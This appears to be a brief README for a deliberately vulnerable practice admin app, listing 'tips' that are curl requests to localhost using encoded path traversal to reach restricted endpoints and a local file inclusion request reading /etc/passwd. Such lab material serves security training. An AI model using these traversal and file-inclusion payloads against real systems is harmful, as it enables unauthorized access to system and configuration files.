 # Getting Started

### Tips for admin app
- login page always will `Username or password is incorrect` return 
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`
